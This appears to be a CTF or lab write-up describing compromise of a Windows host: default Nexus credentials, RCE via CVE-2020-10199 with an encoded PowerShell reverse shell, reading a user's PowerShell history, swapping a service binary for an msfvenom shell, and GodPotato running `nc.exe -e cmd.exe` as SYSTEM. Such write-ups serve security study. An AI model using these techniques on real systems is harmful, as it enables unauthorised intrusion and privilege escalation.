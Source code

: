
This is not a domain joined machine.

FTP requires SSL. Not useful so far.

#### Initial Access - CVE-2020-10199 ( Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticated))

Doing magic we needed to guess that the password for this service was nexus:nexus. With valid credentials, we were able to achieve RCE exploiting CVE-2020-10199.

I created a encoded powershell reverse shell and paste it in the payload field in the exploit. Then I was able to catch a reverse shell

![[Pasted image 20231102214939.png]]

#### Privilege Escalation

Powershell History:
```
PS C:\BaGet> cat C:\Users\nathan\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

cd \users\nathan\desktop
set-executionpolicy unrestricted
.\build.ps1
cd \users\nathan\desktop
.\build.ps1

```

### SharpUp.exe

```
=== Modifiable Service Binaries ===
        Service 'Sonatype Nexus' (State: Running, StartMode: Auto) : "C:\Users\nathan\Nexus\nexus-3.21.0-05\bin\nexus.exe"

```

I replaced the nexus.exe binary with a msfvenom reverse TCP shell and rebooted the machine. However, no privilege escalation was obtained since the service was running as user nathan.

Next, I checked nathan privilege and found he had SeImpersonatePrivilege. I used GodPotato exploit to run `nc.exe -e cmd.exe` as SYSTEM and was able to catch a reverse shell.




![[Pasted image 20231102223043.png]]